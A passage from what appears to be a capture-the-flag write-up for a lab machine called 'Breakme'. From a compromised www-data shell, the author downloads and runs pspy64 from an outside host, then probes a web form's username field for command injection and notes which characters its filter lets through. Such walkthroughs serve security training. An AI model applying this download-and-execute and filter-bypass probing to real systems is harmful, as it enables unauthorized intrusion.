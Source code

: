 Looking at the application, it seems to execute commands with user input. We can run `pspy64` on the machine to gain a better understanding of what the application does.

```console
www-data@Breakme:/tmp$ curl -s http://10.11.72.22/pspy64 -o pspy64
www-data@Breakme:/tmp$ chmod +x pspy64
www-data@Breakme:/tmp$ ./pspy64
```

Testing the `Check Target` section, if we enter a valid IP address, we can see that it runs the `ping` command with it.

```console
2024/09/20 21:14:12 CMD: UID=1002  PID=1291   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:14:12 CMD: UID=1002  PID=1292   | sh -c ping -c 2 127.0.0.1 >/dev/null 2>&1 &
```

However, if we try anything other than a valid IP address, we receive the `Invalid IP address` error.

Checking the `Check File` option, if we enter a filename without any special characters, we can see that it runs the `find` command with it.

```console
2024/09/20 21:14:54 CMD: UID=1002  PID=1296   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:14:54 CMD: UID=1002  PID=1297   | sh -c find /opt -name "test" 2>/dev/null
```

If we include any special characters to attempt command injection, we simply receive the `Invalid Filename` error.

Now, moving on to the `Check User` option, if we enter a username without any special characters, we get the `User <username> not found` error, and we can see that it runs the `id` command with it.

```console
2024/09/20 21:16:42 CMD: UID=1002  PID=1300   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:16:42 CMD: UID=1002  PID=1301   | sh -c id test >/dev/null 2>&1 &
```

But interestingly, if we try an input like `test;`, instead of receiving an error similar to `Invalid username` like the other two options, we get the message `User test not found`, with the special character being replaced. We can also see that the command is executed with our input after the replacement.

```console
2024/09/20 21:18:14 CMD: UID=1002  PID=1309   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:18:14 CMD: UID=1002  PID=1310   | sh -c id test >/dev/null 2>&1 &
```

By trying a list of special characters such as ``~ ! @ # $ % ^ & * ( ) - _ + = { } ] [ | \ ` , . / ? ; : ' " < >``, we can observe which ones get replaced and which do not.

We find that the characters `$`, `{`, `}`, `|`, `.`, and `/` do not get replaced.
